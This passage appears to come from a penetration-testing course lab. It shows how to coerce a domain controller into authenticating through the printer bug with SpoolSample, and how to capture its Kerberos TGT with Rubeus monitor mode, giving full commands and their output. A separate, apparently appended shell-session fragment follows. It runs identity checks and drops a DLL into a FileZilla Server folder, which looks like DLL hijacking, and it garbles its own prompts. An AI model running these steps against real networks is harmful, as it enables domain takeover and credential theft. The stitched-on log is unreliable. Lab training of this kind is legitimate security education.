 A compiled version of SpoolSample is located in the **C:\Tools** folder on _FILES01_.

Once we exploit the printer bug, the goal is for the domain controller to make a connection back to _FILES01_, allowing us to capture the TGT. Due to the sheer amount of TGTs and TGSs on the machine, dumping them may be tricky and require us to read a lot of output.

To solve this, we'll open an administrative PowerShell command prompt and use Rubeus in **monitor** mode, which allows us to monitor incoming connections and tickets in real time. We'll also set a refresh interval of five seconds with the **/interval** option. Since we know which machine account we expect a connection from, we'll use the **/filteruser** option as well to avoid any unnecessary output.

```
PS C:\Tools> .\Rubeus.exe monitor /interval:5 /nowrap /filteruser:DC01$

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3

[*] Action: TGT Monitoring
[*] Target user     : DC01$
[*] Monitoring every 5 seconds for new TGTs
```

> Listing 10 - Starting Rubeus monitor mode on _FILES01_

With Rubeus monitoring for TGTs originating from the domain controller machine account, we'll open a second PowerShell prompt and trigger the print spooler change notification with _SpoolSample.exe_ by specifying the target machine and the capture server.

```
PS C:\Tools> .\SpoolSample.exe DC01 FILES01
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\DC01, CaptureServer: \\FILES01
Attempted printer notification and received an invalid handle. The coerced authentication probably worked!
```

> Listing 11 - Running SpoolSample on _FILES01_

The SpoolSample output is not always accurate and it may be necessary to run the tool multiple times before the change notification callback takes place.

After waiting a few seconds, we'll switch back to Rubeus, which displays the TGT for the domain controller account.

```
[*] 6/1/2023 9:41:23 AM UTC - Found new TGT:

  User                  :  DC01$@CORP.COM
  StartTime             :  6/1/2023 12:55:58 AM
  EndTime               :  6/1/2023 10:55:58 AM
  RenewTill             :  6/8/2023 12:55:58 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFXDCCBVigAwIBBaEDAgEWooIEcDCCBGxhgg...
  
[*] Ticket cache size: 1
```


[files02]: PS>
[files02]: PS>whoami
[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
[files02]: PS>Get-Command
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"